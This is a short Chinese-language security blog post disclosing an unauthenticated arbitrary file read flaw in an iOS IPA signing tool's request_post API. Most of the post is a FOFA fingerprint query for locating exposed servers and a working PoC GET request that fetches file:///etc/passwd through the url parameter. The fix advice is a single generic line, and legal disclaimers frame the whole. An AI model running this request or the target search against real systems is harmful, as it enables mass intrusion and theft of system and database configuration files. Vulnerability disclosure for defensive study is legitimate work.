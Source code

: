 #  苹果IOS端IPA签名工具任意文件读取漏洞   
 深白网安   2024-09-26 11:57  
  
# 免责声明：文章中内容来源于互联网，涉及的所有内容仅供安全研究与教学之用，读者将其信息做其他用途而造成的任何直接或者间接的后果及损失由用户承担全部法律及连带责任。文章作者不承担任何法律及连带责任！如有侵权烦请告知，我们会立即删除整改并向您致以歉意。  
  
# 0x00.漏洞介绍  
  
苹果IOS端IPA签名工具 request_post 存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uY5HnRPFudic223A32yzG7TcGIGd8JtfLuegDuNtMEbgdyhicSOpCVMPvAHeWGD3O1wkUMibe2kiaictTtPr1LyIGlg/640?wx_fmt=png&from=appmsg "")  
# 0x01.漏洞复现  
  
fofa  
```
body="/assets/index/css/mobileSelect.css"
```  
  
poc  
```
GET /api/index/request_post?url=file:///etc/passwd&post_data=1 HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uY5HnRPFudic223A32yzG7TcGIGd8JtfL4tKhBSKjh3QghYOehBTAAZbnggkQnAUtrRH91fOOSKNRLA611ofX0Q/640?wx_fmt=png&from=appmsg "")  
  
# 0x03.修复建议  
  
厂商已提供漏洞修补方案，请关注厂商主页及时更新  
  
# 免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
**遵守网络安全法，请勿用于非法入侵，仅供学习**  
  
